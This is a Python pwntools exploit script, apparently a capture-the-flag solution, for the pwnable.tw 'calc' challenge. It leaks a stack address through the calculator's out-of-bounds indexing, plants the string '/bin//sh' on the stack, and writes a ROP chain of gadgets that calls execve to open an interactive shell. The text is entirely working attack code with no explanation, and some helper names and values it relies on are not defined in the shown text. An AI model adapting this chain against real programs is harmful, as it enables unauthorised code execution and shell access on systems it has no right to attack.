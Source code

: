 ```python

def toStr(ori, new):
    if hex(new).startswith('0xf'):
        new = int('-' + str((new ^ 0xffffffff) + 1))
    if new > ori:
        return '+' + str(new - ori)
    elif new < ori:
        return '-' + str(ori - new)
    else:
        return ''

s = process('./calc')
#s = remote('chall.pwnable.tw', 10100)
#gdb.attach(s, api=True)
print(s.recvuntil('\n'))

s.sendline('+777')
s.sendline('+777' + toStr(toInt(s.recvuntil('\n')), bin))
print(s.recvuntil('\n'))

s.sendline('+778')
s.sendline('+778' + toStr(toInt(s.recvuntil('\n')), sh))
print(s.recvuntil('\n'))

s.sendline('+360')
prev_ebp = s.recvuntil('\n')
prev_ebp = toInt(prev_ebp)

ebp = prev_ebp - offset_ebp
print('ebp calc:', hex(ebp))

rop_gadgets = [
    (0x0805c34b, 'pop eax'),
    (0xb, 'value for eax (0xb)'),
    (0x080701d0, 'pop edx ecx ebx'),
    (0, 'value for edx (0)'),
    (0, 'value for ecx (0)'),
    (ebp + (777 - 360) * 4, 'address of "/bin//sh"'), 
    (0x08049a21, 'int 0x80')
]
for line_num, (addr, desc) in enumerate(rop_gadgets, start=361):
    s.sendline(f'+{line_num}')
    s.sendline(f'+{line_num}' + toStr(toInt(s.recvuntil('\n')), addr))
    print(s.recvuntil('\n'))


s.interactive()

```